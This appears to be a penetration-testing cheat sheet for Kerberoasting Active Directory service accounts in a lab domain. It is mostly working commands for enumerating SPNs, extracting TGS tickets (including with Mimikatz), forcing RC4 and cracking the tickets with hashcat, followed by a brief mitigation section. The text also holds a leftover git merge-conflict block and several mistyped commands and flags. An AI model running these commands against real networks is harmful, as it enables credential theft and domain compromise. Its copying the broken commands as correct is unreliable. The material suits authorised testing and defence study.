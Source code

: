 - SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

-----
<<<<<<< HEAD
# Steps
-----
- First we need to find  SPN Accounts
- Request a TGS ticket and save it if a file
- Crack ticket offline with hashcat 13100
- Test connection using crackmapexe

-----
=======
>>>>>>> ab04fa3fca2b7b9c76fba24003dde0a6354d90f2
# FROM LINUX
-----
### GetUserSPNs.py
- List SPN Accounts
```bash
GetUserSPNs.py -dc-ip $IP INLANEFREIGHT.LOCAL/$USER
```
- Pull all TGS tickets for offline processing
```bash
GetUserSPNs.py -dc-ip $IP INLANEFREIGHT.LOCAL/forend -request
```
- Request a single TGS ticket
```bash
GetUserSPNs.py -dc-ip $IPP INLANEFREIGHT.LOCAL/forend -request-user sqldev 
```
- Saving TGS Ticket to a file
```bash
GetUserSPNs.pyu -dc-ip $IP INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputifle sqldev_tgs
```
- Cracking Ticket Offline with Hashcat
```bash
hashcat -m 13100 sqldev_tgs rockyou.txt
```
- Test Authentication against a Domain Controller
```bash
sudo crackmapexec smb $IP -u sqldev -p database!
```


-----
# FROM WINDOWS
-----
- Enumerate SPNs with setspn.exe
```cmd
setspn.exe -Q */*
```

- Target a Single User
```PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $USER #"MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Options
Add-Type: used to add a .NET framework class to PowerShell session.
-AssemblyName: parameter allows us to specify an assembly that contains types taht we are interested in using
System.Identity Model: namespace that contains different classes for building security token services
New-Object: create an instance of a .NET Framework object
System.IdentityModel.Tokens: namespace with the KerberosRequestorSecurityTOken class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session.
```

- Retrieve All tickets using setspn.exe
```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

- Extract Tickets from memory with Mimikatz
```cmd
base64 /out:true # If this is not set, Mimikatz will extract the tickets and writethem to `.kirbi` files
kerberos::list /export
```

- Prepare the Base64 Blob for cracking
```bash
echo $BASE64 | tr -d \\n
```

- Place the Output into a file as .kirbi
```bash
cat encoded_file | base64 -d > $file
```

- Extract the Kerberos ticket using kirbi2john.py
```bash
# This will create a file called "cracked_file"
python kirbi2john.py sqldev.kirbi
```

- Modify `crack_file` for Hashcat
```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

- Crack the Hash using hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat rockyou.txt
```

==========================================
| AUTOMATED / TOOLBASED ROUTE |
==========================================

### PowerView
```PowerShell
Import-Module ./PowerView.ps1
Get-DomainUser * -spn | select samaccountname

# Target a specific user
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Export all tickets to a CSV file
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

# View the content of the CSV file
cat ./ilfreight_tgs.csv
```

### Rubeus
- Use Rubeus with /stats
```bash
Rubeus.exe kerberoast /stats
# This will give overall information of all users
```

- Use Rubeus with /nowrap flag
```PowerShell
Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
/nowrap: make it easier to copy the hash for offline cracking.
```

- Use Kerberoasting for a specific user
```PowerShell
Rubeus.exe Kerberoast /user:$USER /nowrap
```

- Kerberoasting tools typically request RC4 encryption when performing the attack => easier to crack than AES-128 & AES-256.

- RC4 hashes start with `$krb5tgs$23$*` while AES-256 ones start with `$krb5tgs$18$*`

- Crack ticket with Hashcat
```bash
hashcat -m 13100 rc4_to_crack rockyou.txt
```

- To check what type of encryption is used for a user
```PowerShell
Get-DomainUser $USER -Properties samaccountname, serviceprincipalname, msds-supportedencryptiontypes
```

- Refer to this [sheet](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) for encryption types.
	- `msDS-SupportedEncryptionTypes=0`: use default encryption type (RC4)
	- `msDS-SupportedEncryptionTypes=24`: use AES 128/256

- Use Hashcat to crack hashes
```bash
hashcat -m 19700 aes_to_crack rockyou.txt
```

- To use only RC4 encryption, use Rubeus with `/tgtdeleg`
```PowerShell
Rubeus.exe kerberast /tgtdeleg /user:testspn /nowrap
```


-----
# MITIGATION & DETECTION
-----
- Set a long and complex password.
-  Use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval (like machine accounts) or accounts set up with LAPS.
- Kerberoasting requests Kerberos TGS tickets with RC4 encryption, which should not be the majority of Kerberos activity within a domain. When Kerberoasting is occurring in the environment, we will see an abnormal number of `TGS-REQ` and `TGS-REP` requests and responses, signaling the use of automated Kerberoasting tools. Domain controllers can be configured to log Kerberos TGS ticket requests by selecting [Audit Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) within Group Policy.
- Two events IDs are generated: [4769](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769): A Kerberos service ticket was requested and [4770](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770): A Kerberos service ticket was renewed.
